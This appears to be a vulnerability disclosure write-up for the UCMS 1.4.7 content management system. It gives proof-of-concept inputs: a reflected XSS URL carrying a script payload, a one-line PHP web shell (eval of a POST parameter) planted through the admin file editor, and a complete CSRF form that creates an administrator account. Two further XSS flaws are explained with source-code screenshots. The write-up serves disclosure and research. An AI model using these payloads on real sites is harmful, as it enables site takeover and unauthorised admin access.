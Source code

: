 # XSS1
Access URL：http://www.a.com:85/ucms/index.php?do=sadmin_fileedit&dir=/ucms/user/%3Cscript%3Ealert(1)%3C/script%3E&file=mypost.php
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_1-1.png)

-------------------------------------------
# GETSHELL
Create a 1.php file and submit
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-1.png)

Write poc：
`<?php eval($_POST['123']);?>`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-2.png)

Getshell
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-3.png)

---------------------------------------------
# CSRF
After logging in, use POC to create an administrator account.
```
<html>
  <body>
    <form action="http://www.a.com:85/ucms/?do=user_addpost" method="POST">
      <input type="hidden" name="uuu_token" value="02ed31f4" />
      <input type="hidden" name="nickname" value="123" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="psd" value="test" />
      <input type="hidden" name="psd1" value="test" />
      <input type="hidden" name="b[]" value="1" />
      <input type="hidden" name="b[]" value="2" />
      <input type="hidden" name="alevel" value="3" />
      <input type="hidden" name="s[]" value="0" />
      <input type="hidden" name="s_0[]" value="4" />
      <input type="hidden" name="s[]" value="1" />
      <input type="hidden" name="s_1[]" value="0" />
      <input type="hidden" name="s_1[]" value="1" />
      <input type="hidden" name="s_1[]" value="2" />
      <input type="hidden" name="s_1[]" value="3" />
      <input type="hidden" name="s_1[]" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
---------------------------------------------------
# XSS2
The vulnerability code is located in `ucms_1.4.7\ucms\sadmin\cedit.php`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_2-1.png)

You can see that the htmlspecialchars function is used below to filter, but the above is not filtered, so XSS exists.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_2-2.png)
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_2-3.png)

-----------------------------------------------------
# XSS3
The causes of the vulnerabilities are similar, all are unfiltered code, no more specific analysis here.
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_3-1.png)
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_3-2.png)
